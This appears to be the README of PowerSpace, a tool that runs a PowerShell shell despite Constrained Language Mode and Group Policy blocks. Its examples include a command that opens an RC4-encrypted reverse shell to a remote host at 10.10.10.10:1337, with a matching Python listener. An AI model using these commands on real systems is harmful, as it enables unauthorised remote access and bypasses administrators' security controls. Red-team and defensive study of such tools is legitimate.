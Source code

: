 PowerSpace
==========

An interactive Runspace-based shell to provide full PowerShell support when constraints such as CLM or PowerShell-blocking GPOs are in place.


## Features
-----------
- Reverse shell.
- RC4 encryption.
- Execute either via pipeline or Powershell object.


## Examples
-----------

### Interactive shell

```
C:\Windows\Temp> .\PowerSpace.exe

[PowerSpace] C:\Windows\Temp> Write-Output 'Hello, world.'
Hello, world.
[PowerSpace] C:\Windows\Temp> exit

C:\Windows\Temp>
```

### Encrypted Reverse Shell

- Client
```
C:\Windows\Temp>.\PowerSpace.exe -c -v -r "10.10.10.10:1337" -k "1b3f1a40fb77c1e0"

[PowerSpace] Initializing the Runspace
[PowerSpace] Connecting to 10.10.10.10:1337
[PowerSpace] Connection closed by the remote host

C:\Windows\Temp>
```

- Server
```
user@host:~$ python PowerSpaceServer.py -k '1b3f1a40fb77c1e0' 1337

[PowerSpace] C:\Windows\Temp> exit
user@host:~$
```